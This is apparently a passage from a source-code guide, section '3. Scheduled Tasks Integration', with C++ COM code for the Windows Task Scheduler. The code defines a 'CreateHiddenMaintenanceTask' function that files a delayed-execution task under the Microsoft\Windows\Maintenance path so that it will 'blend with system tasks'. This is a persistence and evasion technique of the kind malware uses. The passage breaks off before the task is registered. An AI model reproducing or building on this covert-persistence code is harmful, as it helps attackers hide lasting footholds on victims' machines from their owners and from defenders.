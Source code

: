 ## 3. Scheduled Tasks Integration

```cpp
// Leverage the Windows Task Scheduler - a legitimate administrative tool
class TaskSchedulerIntegration {
private:
    ITaskService* pService;
    ITaskFolder* pRootFolder;
    bool initialized;
    
public:
    TaskSchedulerIntegration() : pService(nullptr), pRootFolder(nullptr), initialized(false) {}
    
    bool Initialize() {
        if (initialized) return true;
        
        // Initialize COM
        HRESULT hr = CoInitializeEx(NULL, COINIT_MULTITHREADED);
        if (FAILED(hr)) return false;
        
        // Create TaskService instance
        hr = CoCreateInstance(CLSID_TaskScheduler, NULL, CLSCTX_INPROC_SERVER,
                            IID_ITaskService, (void**)&pService);
        
        if (FAILED(hr)) {
            CoUninitialize();
            return false;
        }
        
        // Connect to task service
        hr = pService->Connect(VARIANT(), VARIANT(), VARIANT(), VARIANT());
        if (FAILED(hr)) {
            pService->Release();
            CoUninitialize();
            return false;
        }
        
        // Get root task folder
        hr = pService->GetFolder(_bstr_t(L"\\"), &pRootFolder);
        if (FAILED(hr)) {
            pService->Release();
            CoUninitialize();
            return false;
        }
        
        initialized = true;
        return true;
    }
    
    // Create a legitimate Windows scheduled task for deferred execution
    // This leverages the OS's own mechanisms rather than custom code
    bool CreateHiddenMaintenanceTask(const std::wstring& taskName, const std::wstring& execPath, int delayMinutes) {
        if (!initialized && !Initialize()) return false;
        
        // Use descriptive name to blend with system tasks
        std::wstring actualName = L"Microsoft\\Windows\\Maintenance\\" + taskName;
        
        // Create a task definition
        ITaskDefinition* pTask = NULL;
        HRESULT hr = pService->NewTask(0, &pTask);
        if (FAILED(hr)) return false;
        
```